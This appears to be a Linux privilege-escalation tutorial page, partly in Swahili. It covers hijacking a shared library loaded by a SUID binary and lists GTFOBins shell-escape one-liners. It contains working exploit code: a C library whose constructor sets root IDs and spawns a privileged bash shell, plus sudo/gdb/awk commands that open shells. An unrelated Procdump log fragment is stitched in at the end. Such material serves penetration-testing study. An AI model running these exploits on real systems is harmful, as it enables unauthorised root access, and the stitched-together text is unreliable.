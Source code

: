 ## Shared Object Hijacking
```bash
# Lets find a SUID using a non-standard library
ldd some_suid
something.so => /lib/x86_64-linux-gnu/something.so

# The SUID also loads libraries from a custom location where we can write
readelf -d payroll  | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```
Sasa baada ya kupata SUID binary inayopakia library kutoka kwenye folder ambapo tunaweza kuandika, tuunde library hiyo katika folder hilo kwa jina linalohitajika:
```c
//gcc src.c -fPIC -shared -o /development/libshared.so
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
setresuid(0,0,0);
system("/bin/bash -p");
}
```
Ikiwa unapata kosa kama
```shell-session
./suid_bin: symbol lookup error: ./suid_bin: undefined symbol: a_function_name
```
hii ina maana kuwa maktaba uliyoitengeneza inahitaji kuwa na function iitwayo `a_function_name`.

### GTFOBins

[**GTFOBins**](https://gtfobins.github.io) ni orodha iliyohaririwa ya Unix binaries ambazo zinaweza kutumiwa na attacker kuvuka vikwazo vya usalama vya eneo. [**GTFOArgs**](https://gtfoargs.github.io/) ni ile ile lakini kwa kesi ambapo unaweza **only inject arguments** katika command.

Mradi hukusanya legitimate functions za Unix binaries ambazo zinaweza kutumiwa kuabuse ku-break out restricted shells, escalate au maintain elevated privileges, transfer files, spawn bind na reverse shells, na kurahisisha kazi zingine za post-exploitation.

> gdb -nx -ex '!sh' -ex quit\
> sudo mysql -e '! /bin/sh'\
> strace -o /dev/null /bin/sh\
> sudo awk 'BEGIN {system("/bin/sh")}'


{{#ref}}
https://gtfobins.github.io/
{{#endref}}


{{#ref}}
https://gtfoargs.github.io/
{{#endref}}


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714
